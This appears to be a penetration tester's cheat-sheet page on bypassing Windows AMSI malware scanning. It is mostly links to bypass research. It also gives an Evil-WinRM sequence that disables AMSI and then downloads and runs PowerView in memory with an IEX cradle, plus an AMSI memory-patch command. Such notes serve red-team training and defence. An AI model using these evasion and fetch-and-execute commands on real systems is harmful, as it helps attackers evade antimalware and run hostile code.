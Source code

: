 ```yaml
---
description: Antimalware Scan Interface
---
```


# AMSI Bypass

* [https://amsi.fail/](https://amsi.fail/)
* [https://blog.f-secure.com/hunting-for-amsi-bypasses/](https://blog.f-secure.com/hunting-for-amsi-bypasses/)
* [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
* [https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
* [https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)
* [https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)
* [https://iwantmore.pizza/posts/amsi.html](https://iwantmore.pizza/posts/amsi.html)
* [https://github.com/BC-SECURITY/Beginners-Guide-to-Obfuscation](https://github.com/BC-SECURITY/Beginners-Guide-to-Obfuscation)




## Recon

Check PowerShell language mode:

```
PS > $ExecutionContext.SessionState.LanguageMode
```




## Evil-WinRM + IEX

```
*Evil-WinRM* PS > menu
*Evil-WinRM* PS > Bypass-4MSI
*Evil-WinRM* PS > IEX([Net.Webclient]::new().DownloadString("http://127.0.0.1/PowerView.ps1"))
```




## Memory Patch

* [0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)
* [https://gist.github.com/snovvcrash/cc97787d34938e9d93243a8e4947e560](https://gist.github.com/snovvcrash/cc97787d34938e9d93243a8e4947e560)

```
PS > Bypass-AMSI
```




## AmsiScanBuffer Patch

* [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/)
* [https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs)
* [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#patching-amsidll-amsiscanbuffer-by-rasta-mouse](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
